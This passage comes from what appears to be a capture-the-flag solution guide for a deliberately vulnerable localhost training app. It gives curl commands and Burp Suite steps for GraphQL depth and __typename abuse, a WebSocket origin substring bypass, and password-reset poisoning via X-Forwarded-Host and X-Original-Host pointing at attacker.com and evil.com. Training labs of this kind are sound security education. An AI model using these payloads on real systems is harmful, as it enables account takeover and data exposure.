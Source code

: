**Exploitation:**
```bash
curl 'http://localhost:5000/api/vuln/graphql-injection?query={users{posts{comments{author{posts{comments{id}}}}}}}'
# Flag: {GRAPHQL_DEPTH_LIMIT_BYPASS}
```

#### Bypass Method 4: __typename Field Suggestion
**Vulnerability:** Type information exposes sensitive fields  
**Bypass:** Use __typename to discover field types

**Exploitation:**
```bash
curl 'http://localhost:5000/api/vuln/graphql-injection?query={users{id,username,__typename}}'
# Flag: {GRAPHQL_TYPENAME_DISCLOSURE}
```

### 5. WebSocket Manipulation Bypass Method

#### Bypass Method: Origin Validation Bypass
**Vulnerability:** Weak origin validation using substring check  
**Bypass:** Use domain with "trusted" substring

**Exploitation Using Burp Suite:**
1. Intercept WebSocket upgrade request
2. Modify Origin header to: `http://evil.trusted.com` or `http://trusted-attacker.com`
3. Server accepts connection due to substring match
4. Flag: {WEBSOCKET_ORIGIN_VALIDATION_BYPASS}

### 6. HTTP Host Header Injection Bypass Methods

#### Bypass Method 1: X-Forwarded-Host Header
**Vulnerability:** Application trusts X-Forwarded-Host over Host  
**Bypass:** Use X-Forwarded-Host to poison reset links

**Exploitation Using Burp Suite:**
1. Intercept password reset request
2. Add header: `X-Forwarded-Host: attacker.com`
3. Server uses X-Forwarded-Host in reset link
4. Flag: {HOST_HEADER_X_FORWARDED_HOST_BYPASS}

**Using curl:**
```bash
curl -X POST "http://localhost:5000/api/vuln/host-header-injection/reset" \
  -H "Content-Type: application/json" \
  -H "X-Forwarded-Host: evil.com" \
  -d '{"email":"victim@company.com"}'
```

#### Bypass Method 2: X-Original-Host Header
**Vulnerability:** Alternative header not sanitized  
**Bypass:** Use X-Original-Host header

**Exploitation:**
```bash
curl -X POST "http://localhost:5000/api/vuln/host-header-injection/reset" \
  -H "Content-Type: application/json" \
  -H "X-Original-Host: attacker.com" \
  -d '{"email":"victim@company.com"}'
# Flag: {HOST_HEADER_X_ORIGINAL_HOST_BYPASS}
```
